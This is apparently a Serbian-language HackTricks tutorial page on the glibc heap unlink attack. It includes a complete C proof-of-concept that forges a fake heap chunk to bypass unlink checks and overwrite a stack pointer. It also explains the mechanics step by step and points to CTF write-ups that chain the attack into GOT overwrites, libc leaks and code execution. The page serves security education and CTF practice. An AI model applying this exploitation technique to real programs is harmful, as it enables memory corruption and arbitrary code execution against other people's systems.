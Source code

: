 # Unlink Napad

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS-a:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Osnovne informacije

Kada je ovaj napad otkriven, uglavnom je omogućavao WWW (Write What Where), međutim, neka **proveravanja su dodata** čineći novu verziju napada interesantnijom i kompleksnijom i **beskorisnom**.

### Primer koda:

<details>

<summary>Kod</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* Napad ne funkcioniše ako se koriste tcaches (nakon 2.26)

### Cilj

Ovaj napad omogućava **promenu pokazivača na blok tako da pokazuje na 3 adrese pre sebe**. Ako se na ovom novom mestu (okolina gde je pokazivač bio smešten) nalaze zanimljive stvari, poput drugih kontrolisanih alokacija / steka..., moguće je čitati/prepisivati ih kako bi se prouzrokovala veća šteta.

* Ako je ovaj pokazivač bio smešten u steku, jer sada pokazuje 3 adrese pre sebe i korisnik potencijalno može da ga pročita i izmeni, biće moguće procureti osetljive informacije iz steka ili čak izmeniti povratnu adresu (možda) bez dodirivanja kanara
* U CTF primerima, ovaj pokazivač se nalazi u nizu pokazivača na druge alokacije, stoga, čineći ga da pokazuje 3 adrese pre i mogući za čitanje i pisanje, moguće je naterati druge pokazivače da pokazuju na druge adrese.\
Pošto korisnik potencijalno može čitati/pisati i druge alokacije, može procureti informacije ili prepisati nove adrese na proizvoljnim mestima (kao u GOT).

### Zahtevi

* Određena kontrola nad memorijom (npr. stek) kako bi se kreirali par blokova dajući vrednosti nekim od atributa.
* Procurenje steka kako bi se postavili pokazivači lažnog bloka.

### Napad

* Postoje par blokova (blok1 i blok2)
* Napadač kontroliše sadržaj bloka1 i zaglavlja bloka2.
* U bloku1 napadač kreira strukturu lažnog bloka:
* Da bi zaobišao zaštitu, osigurava da je polje `size` ispravno postavljeno kako bi izbegao grešku: `corrupted size vs. prev_size while consolidating`
* i polja `fd` i `bk` lažnog bloka pokazuju na mesto gde je smešten pokazivač bloka1 sa ofsetima -3 i -2, tako da `fake_chunk->fd->bk` i `fake_chunk->bk->fd` pokazuju na poziciju u memoriji (steku) gde se zaista nalazi adresa bloka1:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Zaglavlja bloka2 se menjaju kako bi se naznačilo da prethodni blok nije korišćen i da je veličina veličina lažnog bloka koji sadrži.
* Kada se drugi blok oslobodi, tada se dešava odvajanje ovog lažnog bloka:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* Prethodno je napravljeno da `fake_chunk->fd->bk` i `fake_chunk->bk->fd` pokazuju na isto mesto (lokacija u steku gde je smešten `blok1`, tako da je to bila validna povezana lista). Pošto **oboje pokazuju na istu lokaciju**, samo poslednje (`fake_chunk->bk->fd = fake_chunk->fd`) će imati **efekat**.
* Ovo će **prepistati pokazivač na blok1 u steku na adresu (ili bajtove) smeštene 3 adrese pre u steku**.
* Stoga, ako napadač može ponovo kontrolisati sadržaj bloka1, biće u mogućnosti **pisati unutar steka**, moguće je potencijalno prepisati povratnu adresu preskačući kanar i izmeniti vrednosti i pokazivače lokalnih promenljivih. Čak ponovno izmeniti adresu bloka1 smeštenu u steku na drugu lokaciju gde ako napadač ponovo može kontrolisati sadržaj bloka1, biće u mogućnosti pisati bilo gde.
* Imajte na umu da je ovo bilo moguće jer su **adrese smeštene u steku**. Rizik i eksploatacija mogu zavisiti o **gde su adrese lažnog bloka smeštene**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Reference

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Iako bi bilo čudno pronaći unlink napad čak i u CTF-u, ovde imate neke writeup-ove gde je ovaj napad korišćen:
* Primer CTF-a: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* U ovom primeru, umesto steka postoji niz malloc adresa. Unlink napad se izvodi kako bi se mogao alocirati blok ovde, stoga je moguće kontrolisati pokazivače niza malloc adresa. Zatim, postoji još jedna funkcionalnost koja omogućava modifikaciju sadržaja blokova na ovim adresama, što omogućava usmeravanje adresa ka GOT-u, modifikaciju adresa funkcija za dobijanje procuretaka i RCE.
* Još jedan primer CTF-a: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Kao i u prethodnom primeru, postoji niz adresa alokacija. Moguće je izvesti unlink napad kako bi se adresa prve alokacije usmerila na nekoliko pozicija pre početka niza i zatim prepisati ovu alokaciju na novu poziciju. Stoga je moguće prepisati pokazivače drugih alokacija da pokazuju na GOT atoi, ispisati ga da bi se dobio procuretak libc-a, a zatim prepisati atoi GOT sa adresom do jednog gedžeta.
* Primer CTF-a sa prilagođenim malloc i free funkcijama koje zloupotrebljavaju ranjivost veoma sličnu unlink napadu: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* Postoji prekoračenje koje omogućava kontrolu FD i BK pokazivača prilagođenog malloc-a koji će biti (prilagođeno) oslobođen. Osim toga, heap ima exec bit, tako da je moguće procureti adresu heap-a i usmeriti funkciju iz GOT-a ka heap bloku sa shellkodom za izvršavanje.

